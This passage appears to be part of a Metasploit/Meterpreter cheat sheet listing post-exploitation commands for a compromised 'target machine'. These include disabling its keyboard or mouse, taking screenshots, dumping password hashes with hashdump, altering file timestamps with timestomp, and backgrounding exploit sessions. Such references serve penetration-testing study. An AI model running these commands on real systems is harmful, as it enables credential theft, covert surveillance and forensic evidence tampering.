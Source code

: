 Manage/view the system's routing table
```
route
```


##### Misc Commands:

Display the duration that the GUI of thetarget machine has been idle.
```
idletime
```

Enable/disable either the mouse or keyboard of the target machine.
```
uictl [enable/disable] [keyboard/mouse]
```

Save as an image a screenshot of the target machine.
```
screenshot
```


##### Addiional Modules:

Load the specified module
```
use [module]
```

Example:

Load the priv module
```
use priv
```

Dump the hashes from the box
```
hashdump
```

Alter NTFS file timestamps
```
timestomp
```

##### Managing Sessions

###### Multiple Exploitation: 

Run the exploit expecting a single session that is immediately backgrounded:

```
msf > exploit -z
```

Run the exploit in the background expecting one or more sessions that are immediately backgrounded:

```
msf > exploit –j
```
